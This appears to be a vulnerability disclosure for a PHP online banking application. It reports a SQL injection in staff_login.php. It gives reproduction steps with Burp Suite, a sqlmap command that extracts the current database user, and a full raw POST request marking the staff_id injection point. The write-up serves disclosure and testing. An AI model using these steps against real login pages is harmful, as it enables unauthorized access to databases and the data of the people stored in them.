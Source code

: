 # Online Banking SQL Injection
* `Description` => sql injection at `staff_login.php`
# Step to Reproduct
* `Staff Login` -> `Staff ID ` -> `Staff Password` -> `Login` -> `modify data` -> `Sqlmap`
# Exploit
* Input `Staff ID` and `Staff Password` -> `Login` 
![image](https://user-images.githubusercontent.com/79050415/159326849-427a43be-5e88-4535-ba60-7d41fe0906f1.png)
* Use Burp Suite capture request 
![image](https://user-images.githubusercontent.com/79050415/159327710-183afd91-1624-4733-88a7-491cca62fa8f.png)
* Then modify the data and save as `sqli.txt`
![image](https://user-images.githubusercontent.com/79050415/159327862-825f0250-9143-46ed-a5cb-c36d5ee29b3d.png)
* Scan `sqli.txt` on `Sqlmap`
```c
python3 sqlmap.py -r sqli.txt --batch --current-user
```
![image](https://user-images.githubusercontent.com/79050415/159328722-52415c05-ed4a-405b-ae9f-919692f58601.png)

# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/159329104-f6734379-6e0f-4344-a7a9-d4baa41d2e34.png)
* No filter when inserting data to database
# Information Disclosure
![image](https://user-images.githubusercontent.com/79050415/159337062-c4045649-7665-4691-9a51-3d41d502d14e.png)

# POC
`Injection Point`
```c
staff_id=*&password=hhhhhhhhhh&staff_login-btn=LOGIN
```
* `Request`
```c
POST /Online-Banking/staff_login.php HTTP/1.1
Host: 192.168.1.101:8080
Content-Length: 57
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.101:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101:8080/Online-Banking/staff_login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=jpkpok9b1tiholm7srir1b6mev
Connection: close

staff_id=*&password=hhhhhhhhhh&staff_login-btn=LOGIN
```
